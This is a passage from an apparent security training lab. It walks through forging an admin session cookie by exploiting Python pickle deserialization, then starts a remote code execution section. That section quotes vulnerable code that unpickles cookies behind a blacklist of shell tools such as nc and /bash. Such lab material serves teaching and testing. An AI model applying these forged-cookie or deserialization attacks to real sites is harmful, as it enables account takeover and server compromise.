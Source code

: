 If we run this exploit, we will get a base64-encoded value:

```shell
python3 exploit-admin.py

gASVRgAAAAAAAACMCXV...SNIP...b2xllIwFYWRtaW6UdWIu

```

#### Testing Locally

Before we run any attacks against the live target, we will test it out locally, like in the PHP sections.

```shell
python3

Python 3.10.7 (main, Oct  1 2022, 04:31:04) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import util.auth
>>> s = util.auth.cookieToSession('gASVRgAAAAAAAACMCXV...SNIP...b2xllIwFYWRtaW6UdWIu')
>>> s.username
'attacker'
>>> s.role
'admin'

```

We see in the output that `s.role` was set to `admin`, so this attack should work.

#### Running against the Target

We can now overwrite the value of the `auth_8bH3mjF6n9` cookie in our browser and try (re-)loading the admin panel to see if it worked, and we can see it has. The website deserialized the cookie we generated and now thinks we are a user named `attacker` with the `admin` role.

![](eC2lBJWTS3XR.png)


# Remote Code Execution

* * *

## Getting RCE

In the previous section, we generated a cookie value to give ourselves admin access to the website. As a final objective, we will try and abuse the known deserialization to get remote code execution on the web server.

You may have already noticed in the `Identifying a Vulnerability` section that there is some sort of blacklist filter in the `util.auth.cookieToSession` function before the cookie is deserialized. We will need to keep this in mind as we develop our exploit:

```python
...
def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
...

```
